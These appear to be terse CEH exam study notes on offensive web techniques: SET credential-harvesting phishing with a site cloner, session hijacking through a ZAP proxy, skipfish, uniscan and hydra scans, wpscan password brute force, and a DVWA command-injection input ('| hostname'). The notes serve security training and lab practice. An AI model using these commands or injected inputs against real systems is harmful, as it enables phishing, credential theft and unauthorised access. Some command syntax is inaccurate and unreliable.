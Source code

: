 
Use SET
social engineering toolkit
1) select spear phishing
2) choose credential harvesting
3) choose site cloner enter the details
4) voila


## Session Hijacking

Tools Used
1) OWASP ZAP (here the attacker itsef is windows host)
	1) in chrome -> settings -> system -> proxy settings -> LAN settings -> check proxy server -> add attacker IP address and port to 8080 -> OK
	2) On the main windows click do not persist
	3) After the main screen appears click the `+`  symbol
	4) For ZAP to work as a proxy go to Tools -> options -> then search for Local Proxies -> add attacker address -> DO NOT CHANGE THE PORT
	5) Using orange circle set a break point
	6) go to the website we want to capture request on
	7) capture request and click **submit and step to next request or response**  change the web site to your wanted website  and done

## Hacking Web Servers

Tools Used
1) skipfish
    1) `skipfish -o /root/test -S /usr/share/skipfish/dictionaries/complete.wl http://IP:port`
2) httprecon put IP port done
3) id_serve.exe = vuln analysis maybe
4) hydra = hydra -u username -p password -S IP
5) Uniscan Web Server fingerprinting kali
	1) `uniscan -u  http://IP:port/CEH -q`
	2) `uniscan -u  http://IP:port/CEH -we`
	3) `uniscan -u  http://IP:port/CEH -d`
		1)  -w = check for robots.txt
		2)  -e = check for sitemap.xml
		3)  -d = dynamic

## Hacking Web Applications

1) Parameter Tampering = changing the last parameter = IDOR
2) XSS = cross site scripting
3) Enumeration and Hacking a web Application Using WPscan and metasploit  we can also use nmap to enumerate the users in wordpress
	1) For WPSCAN
		1) `wpscan --url https://example/ --enumerate u (To enumerate the user)`
		2) `wpscan --url http://172.16.0.27:8080/CEH/ -usernames elliot  -P /path/pass.txt`
		3) ` wpscan --url https://example/ --enumerate vp (To enumerate vuln plugins)`
	2) For Metasploit
		1) `use auxiliary/scanner/http/wordpress_login_enum`
	3) Exploiting remote command execution login -> set the DVWA security to low  -> issue the commands
		1) | hostname 
